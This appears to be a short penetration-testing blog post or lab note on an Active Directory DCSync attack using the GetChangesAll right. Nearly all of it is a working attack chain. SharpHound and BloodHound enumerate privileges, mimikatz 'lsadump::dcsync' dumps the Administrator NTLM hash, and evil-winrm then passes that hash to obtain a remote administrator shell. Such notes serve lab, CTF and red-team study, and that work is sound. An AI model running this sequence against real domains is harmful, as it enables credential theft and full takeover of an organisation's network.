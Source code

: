 ```yaml
---
layout: post
title:  "AD - DCSync - GetChangesAll"
date:   2022-01-01
categories: windows
---
```



## AD - DCSync - GetChangesAll


### Target


```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/SharpHound.ps1

PS C:\Users\user\Documents> .\SharpHound.ps1

PS C:\Users\user\Documents> Invoke-BloodHound -CollectionMethod All

or 

PS C:\Users\user\Documents> Invoke-BloodHound -CollectionMethod All -Domain DC0.EXAMPLE.LOCAL -ZipFilename dc.zip

```

### Kali


```bash

sudo neo4j console
bloodhound
```

### Bloodhound Enumeration - GetChangesAll

```text


Select the current user -> Node Info -> First Degree Object Control -> GetChangesAll

```

### Back to Target


```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/mimikatz.exe
PS C:\Users\user\Documents> .\mimikatz.exe "lsadump::dcsync /domain:EXAMPLE.LOCAL /user:Administrator" exit

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 02/07/2020 05:27:04
Object Security ID   : S-1-5-21-<REDACTED>-<REDACTED>-<REDACTED>-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: <NTML HASH VALUE WE WANT>


```

### Evil-Winrm

```powershell

evil-winrm -i 127.0.0.1  -u administrator -H <NTML HASH VALUE WE WANT>

```